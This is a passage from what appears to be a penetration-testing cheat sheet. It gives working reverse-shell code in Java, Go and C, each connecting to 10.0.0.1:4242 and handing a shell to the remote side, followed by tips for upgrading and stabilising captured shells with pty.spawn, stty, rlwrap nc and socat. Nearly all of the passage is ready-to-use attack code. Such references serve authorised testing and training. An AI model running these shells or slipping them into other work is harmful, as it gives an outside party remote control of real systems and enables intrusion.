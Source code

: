 ***

### **12. Miscellaneous Reverse Shells**

#### Java

```java
Runtime r = Runtime.getRuntime();
Process p = r.exec("/bin/bash -c 'exec 5<>/dev/tcp/10.0.0.1/4242;cat <&5 | while read line; do $line 2>&5 >&5; done'");
p.waitFor();
```

#### Go

```go
echo 'package main; import("os/exec";"net"); func main(){ c,_:=net.Dial("tcp","10.0.0.1:4242"); cmd:=exec.Command("/bin/sh"); cmd.Stdin=c; cmd.Stdout=c; cmd.Stderr=c; cmd.Run() }' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go
```

#### C

```c
#include <stdio.h>
#include <sys/socket.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>
int main(void){
    int sockt = socket(AF_INET, SOCK_STREAM, 0);
    struct sockaddr_in revsockaddr;
    revsockaddr.sin_family = AF_INET;       
    revsockaddr.sin_port = htons(4242);
    revsockaddr.sin_addr.s_addr = inet_addr("10.0.0.1");
    connect(sockt, (struct sockaddr *) &revsockaddr, sizeof(revsockaddr));
    dup2(sockt,0); dup2(sockt,1); dup2(sockt,2);
    char * const argv[] = {"/bin/sh", NULL};
    execve("/bin/sh", argv, NULL);
}
```

***

### **13. Tips / Notes**

* Always try multiple shells: `bash`, `sh`, `python`, `perl`, `ruby`.
* Upgrade partial shells using `python -c 'import pty; pty.spawn("/bin/bash")'`.
* Use `stty raw -echo` to fix terminal issues.
* `rlwrap nc` gives history and editing for Netcat shells.
* For Windows TTY: PowerShell or ConPty methods are best.
* Socat and Rustcat provide fully interactive TTY.

***

